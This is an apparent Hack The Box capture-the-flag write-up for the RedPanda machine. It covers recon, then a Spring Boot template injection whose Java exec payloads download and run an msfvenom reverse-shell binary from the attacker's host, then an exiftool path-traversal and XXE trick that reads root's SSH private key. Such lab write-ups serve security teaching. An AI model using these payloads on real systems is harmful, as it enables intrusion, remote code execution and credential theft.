# RedPanda HTB Writeup
## User 
Begin with a basic port scan:

```
# Nmap 7.92 scan initiated Fri Oct  7 12:43:05 2022 as: nmap -A -T4 -p- -sC -sC -oA nmap.results 10.10.11.170
Nmap scan report for 10.10.11.170
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Fri, 07 Oct 2022 19:44:37 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en" dir="ltr">
|     <head>
|     <meta charset="utf-8">
|     <meta author="wooden_k">
|     <!--Codepen by khr2003: https://codepen.io/khr2003/pen/BGZdXw -->
|     <link rel="stylesheet" href="css/panda.css" type="text/css">
|     <link rel="stylesheet" href="css/main.css" type="text/css">
|     <title>Red Panda Search | Made with Spring Boot</title>
|     </head>
|     <body>
|     <div class='pande'>
|     <div class='ear left'></div>
|     <div class='ear right'></div>
|     <div class='whiskers left'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='whiskers right'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='face'>
|     <div class='eye
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     Content-Length: 0
|     Date: Fri, 07 Oct 2022 19:44:37 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Fri, 07 Oct 2022 19:44:37 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
|_http-title: Red Panda Search | Made with Spring Boot
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=10/7%Time=63408191%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,690,"HTTP/1\.1\x20200\x20\r\nContent-Type:\x20text/html;charse
SF:t=UTF-8\r\nContent-Language:\x20en-US\r\nDate:\x20Fri,\x2007\x20Oct\x20
SF:2022\x2019:44:37\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20htm
SF:l>\n<html\x20lang=\"en\"\x20dir=\"ltr\">\n\x20\x20<head>\n\x20\x20\x20\
SF:x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20<meta\x20author=\"woode
SF:n_k\">\n\x20\x20\x20\x20<!--Codepen\x20by\x20khr2003:\x20https://codepe
SF:n\.io/khr2003/pen/BGZdXw\x20-->\n\x20\x20\x20\x20<link\x20rel=\"stylesh
SF:eet\"\x20href=\"css/panda\.css\"\x20type=\"text/css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"css/main\.css\"\x20type=\"text/c
SF:ss\">\n\x20\x20\x20\x20<title>Red\x20Panda\x20Search\x20\|\x20Made\x20w
SF:ith\x20Spring\x20Boot</title>\n\x20\x20</head>\n\x20\x20<body>\n\n\x20\
SF:x20\x20\x20<div\x20class='pande'>\n\x20\x20\x20\x20\x20\x20<div\x20clas
SF:s='ear\x20left'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='ear\x20r
SF:ight'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='whiskers\x20left'>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\x20\x
SF:20\x20\x20<div\x20class='whiskers\x20right'>\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</
SF:div>\n\x20\x20\x20\x20\x20\x20<div\x20class='face'>\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20<div\x20class='eye")%r(HTTPOptions,75,"HTTP/1\.1\x20200\x
SF:20\r\nAllow:\x20GET,HEAD,OPTIONS\r\nContent-Length:\x200\r\nDate:\x20Fr
SF:i,\x2007\x20Oct\x202022\x2019:44:37\x20GMT\r\nConnection:\x20close\r\n\
SF:r\n")%r(RTSPRequest,24E,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/
SF:html;charset=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x20435
SF:\r\nDate:\x20Fri,\x2007\x20Oct\x202022\x2019:44:37\x20GMT\r\nConnection
SF::\x20close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>H
SF:TTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\x2
SF:0type=\"text/css\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x20h1
SF:,\x20h2,\x20h3,\x20b\x20{color:white;background-color:#525D76;}\x20h1\x
SF:20{font-size:22px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:14px
SF:;}\x20p\x20{font-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{heigh
SF:t:1px;background-color:#525D76;border:none;}</style></head><body><h1>HT
SF:TP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</h1></body></html
SF:>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct  7 12:44:32 2022 -- 1 IP address (1 host up) scanned in 86.75 seconds

```
Here we can see that ports 22 (SSH) and 8080 (Web Service, says http proxy) are open and running services. We can visit the web service/site and see a home page with an input labeled "search":

When we supply an empty search query, we see a result for a "panda" named Greg, and the page is even so kind as to warn us of his "injection attacks"... interesting...

Next we can run whatweb to see what type of tech is running on this web service:
```
$ whatweb http://10.10.11.170:8080
http://redpanda.htb:8080 [200 OK] Content-Language[en-US], Country[RESERVED][ZZ], HTML5, IP[10.10.11.170], Title[Red Panda Search | Made with Spring Boot]
```
We see that it's made with SpringBoot, but that was pretty obvious from the nmap scan. Let's do some more recon and fuzz the site to check for active directories:
```
$ wfuzz -w /usr/share/wordlists/wfuzz/general/common.txt --hc 404 http://10.10.11.170:8080/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.170:8080/FUZZ
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================

000000313:   500        0 L      1 W        86 Ch       "error"                                                                                     
000000717:   405        0 L      3 W        117 Ch      "search"                                                                                    
000000792:   200        32 L     97 W       987 Ch      "stats"                                                                                     

Total time: 0
Processed Requests: 951
Filtered Requests: 948
Requests/sec.: 0
```
Let's visit stats and check it out:



We see that there are stats for two users, one of which has an export function to generate reports for users.... maybe an endpoint. 





After further digging around with the search utility, we find that it may be vulnerable to an SSTI injection. This will allow us to inject a malicious payload into a template, possible allowing us to generate remote code execution on the server side. We test that theory by entering *{7+7} to see a result of 14 in the search query:



This means that, because templates are use to generate web pages by combining fixed templates with data, we can inject template directives into this search as opposed to getting interpreted as data, which will allow us to manipulate the template engine and control the server.

We can use a payload provided by [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java---retrieve-etcpasswd) SSTI injection cheatsheet, in order to Retrieve /etc/passwd as we know this is indeed a Java application because it is running SpringBoot



Now, let's go about generating a reverse shell. First I create a little elf helper for the reverse shell on the attacking machine:

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.xxx.xxx LPORT=443 -f elf > ks.elf #Must supply your IP address (VPN from HTB) for the LHOST parameter
```
Okay so now we have this ks.elf executable somewhere on our attaching machine, so we can host an http server in this same directory to access this file from the SSTI:
```
$ python -m http.server 80 #Make sure this is where your elf binary is
```
Now we set up a netcat listener on our attacking machine to pick up the reverse shell when it gets sent from the executable through our SSTI commands. 

```
$ nc -lvnp 443
```
Then we can send these three commands (through the search bar on the webpage) one at a time to retrieve the msfvenom executable, modify its permissions, and execute it. At which point, we should retrieve a reverse shell in our netcat session.


```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.10.X.X/ks.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./ks.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./ks.elf")}
```

Here is an example of retrieving the shell in real time.





We have obtained a reverse shell, but we can't run a lot of our basic commands, so let's attempt to upgrade the shell. It looks like there's no python installed, so the typical fashion is not going to work...



But it does appear that Python3 is installed, so let's just try and use that, with the following sequence of commands into the reverse shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL-Z
stty raw -echo
fg
export TERM=xterm
```
What is happening here is we are using python3 to spawn a pseudo terminal (pty), which will give us a nicer prompt and allow us to run things like `su`, but it still won't correctly handle SIGINT, or perform useful things like tab completion. So we then background the shell with `CTRL-Z` then set our current terminal to use it's stty to send control input through the reverse shell. After that, we foreground the other (reverse) shell, and set our terminal type to match that of our attacking machine. Below is a GIF of completing this process:



We could have grabbed our user flag before upgrading the shell, but nonetheless, this process certainly makes it mush simpler:




## Priv Esc

Let's see what process are running as root:
```
woodenk@redpanda:/home/woodenk$ ps aux | grep root
root         879  0.0  0.0   2608   592 ?        Ss   15:35   0:00 /bin/sh -c sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
root         880  0.0  0.2   9420  4560 ?        S    15:35   0:00 sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
```
We also can view what group(s) our user woodenk is a member of:
```
woodenk@redpanda:/home/woodenk$ id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
```
And perform a quick find to see any files owned by this group we see above "logs":

```
woodenk@redpanda:/home/woodenk$ find / -group logs 2>/dev/null
/opt/panda_search/redpanda.log
/credits
/credits/damian_creds.xml
/credits/woodenk_creds.xml
```
Let's go and visit this `/opt/panda_search` directory and snoop around a bit.

First let's check where this `redpanda.log` file is being used in `/opt/panda_search`:



If we view this `RequestInterceptor.java` file, we see that it handles request from the server, and writes information such as : status code, IP address, user agent, and the request uri to the redpanda.log file. Interesting, because initially when I checked `redpanda.log` it was empty, so it's probably periodically cleaned.  

I Transferred pspy over to the target system and noticed a few cron jobs running:




Here we see this `/opt/cleanup.sh` along with some java running in `/opt/credit-score` and this `/root/run_credits.sh` script. I'm going to go and check around this `credit-score` directory and check out what it has to offer, and it appears to be a maven built java project. The source file App.java is very interesting as it also seems to be doing something with our `redpanda.log` file, this most certainly will be where we'll find our privesc.  


Without cluttering this page with the entire source code, this file appears to read our `redpanda.log file` and checks to see if:
1. The file path name ends in ".jpg"
2. Maps some of the data of the log line
3. Read the metadata of any .jpg posted at `/opt/panda_search/src/main/resources/static` 
4. Post artist image data to `/credits/` + artist + "_creds.xml"`

Unfortunately, this box retired and was pulled down (I dont have VIP access for retired machines) before I could complete this documentation, but I can use my notes to explain how I rooted the machine from here.

So, in order to exploit root access for this machine, we are going to perform an XML entity injection, in order to grab an ssh key for root. In short, we are going to take an image, use exiftool to modify the artist tag to a new file location. Then we are going to make a fake xml creds page for that artist, and within that page there will be an XXE that spits out the ssh private key for root.


If we look into this `/opt/panda_search/src/main/resources/static` directory, we see multiple images in a directory titled `img` . We can grab one of these images by either downloading it directly from the web page in the browser or through an http server.

Once we have one of these images, we can use exiftool to examine some of the images metadata. We see the artists name in a field (mine was damian) and can see that there is indeed an xml file with some stats located at `/credits/damian_creds.xml`

In order to perform our XXE, we are going to manipulate this Artist field to a value that will directory traverse out of this credits directory which we do not have an access to write in. So we take the image and run something like this, on our attacking machine once we've grabbed one of those example photos.
```
$exiftool -Artist="../dev/shm/greeb" that_image_we_took.jpg
$mv that_image_we_took.jpg exploit.jpg
```

Spawn a web server with python in whatever directory you have this image file in, and grab it from the target machine in the `/dev/shm` directory:
```
woodenk@redpanda.htb:~/dev/shm wget 10.10.X.X:8000/exploit.jpg
```

Okay so we have this image now on the target machine, but now we need to create the xml file that we will use for the injection. Copy one of the xml files located in `/credits/` into your `dev/shm` (or whatever writeable directory you have chosen) and name it `greeb_creds.xml` (or `your_artist_name_creds.xml`) Now, add the lines necessary to print `/root/.ssh/id_rsa` to output. This is relatively simple, there are plenty of examples of XXE posted online. After editing, your xml file should look something like this:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa" >]>
<credits>
  <author>greeb</author>
  <image>
    <uri>/../../../../../../dev/shm/exploit.jpg</uri>
    <views>1</views>
    <foo>&xxe;</foo>
  </image>
  <totalviews>2</totalviews>
</credits>
```
Note that the directory traversal for the uri looks different than that for the xml page. This is because the uri is traversing out of `/opt/panda_search/src/main/resources/static` while the xml is traversing out of `/credits/`

The last step is to add a line to the `redpanda.log` file which will allow the cron job running to begin the process of accessing the image at `/dev/shm` then traversing to xml credits page associated with it's author and update the xml data to the view. After a minute or two, check the xml file at `/dev/shm/greeb_creds.xml` and you should have the root ssh key.

Once you have the key, copy it back to your attacking machine. Don't forget to give it the ol' `chmod 600` and log in to grab your root flag.

```
$ chmod 600 ./root_key.txt
$ ssh root@10.129.31.193 -i root_key.txt
```
